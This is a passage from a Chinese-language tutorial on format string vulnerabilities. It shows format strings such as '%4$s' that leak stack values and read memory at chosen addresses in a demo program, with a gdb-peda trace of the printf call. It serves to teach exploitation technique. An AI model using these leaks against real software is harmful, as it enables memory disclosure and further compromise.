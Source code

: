 这里，格式字符串的地址为 `0xffffd584`。我们通过格式字符串 `%3$x.%1$08x.%2$p.%2$p.%4$p.%5$p.%6$p` 分别获取了 `arg3`、`arg1`、两个 `arg2`、`arg4` 和栈上紧跟参数的两个值。可以看到这种方法非常强大，可以获得栈中任意的值。

### 查看任意地址的内存

攻击者可以使用一个“显示指定地址的内存”的格式规范来查看任意地址的内存。例如，使用 `%s` 显示参数　指针所指定的地址的内存，将它作为一个 ASCII 字符串处理，直到遇到一个空字符。如果攻击者能够操纵这个参数指针指向一个特定的地址，那么 `%s` 就会输出该位置的内存内容。

还是上面的程序，我们输入 `%4$s`，输出的 `arg4` 就变成了 `ABCD` 而不是地址 `0xffffd57a`：

```text
gdb-peda$ n
[----------------------------------registers-----------------------------------]
EAX: 0xffffd584 ("%4$s")
EBX: 0x56557000 --> 0x1efc
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd618 --> 0x0
ESP: 0xffffd550 --> 0xffffd584 ("%4$s")
EIP: 0x56555642 (<main+133>:    call   0x56555430 <printf@plt>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56555638 <main+123>:       push   DWORD PTR [ebp-0xc]
   0x5655563b <main+126>:       lea    eax,[ebp-0x94]
   0x56555641 <main+132>:       push   eax
=> 0x56555642 <main+133>:       call   0x56555430 <printf@plt>
   0x56555647 <main+138>:       add    esp,0x20
   0x5655564a <main+141>:       sub    esp,0xc
   0x5655564d <main+144>:       push   0xa
   0x5655564f <main+146>:       call   0x56555450 <putchar@plt>
Guessed arguments:
arg[0]: 0xffffd584 ("%4$s")
arg[1]: 0x1
arg[2]: 0x88888888
arg[3]: 0xffffffff
arg[4]: 0xffffd57a ("ABCD")
[------------------------------------stack-------------------------------------]
0000| 0xffffd550 --> 0xffffd584 ("%4$s")
0004| 0xffffd554 --> 0x1
0008| 0xffffd558 --> 0x88888888
0012| 0xffffd55c --> 0xffffffff
0016| 0xffffd560 --> 0xffffd57a ("ABCD")
0020| 0xffffd564 --> 0xffffd584 ("%4$s")
0024| 0xffffd568 (" RUV\327UUVT\332\377\367\001")
0028| 0xffffd56c --> 0x565555d7 (<main+26>:     add    ebx,0x1a29)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x56555642 in main ()
gdb-peda$ c
Continuing.
ABCD
```
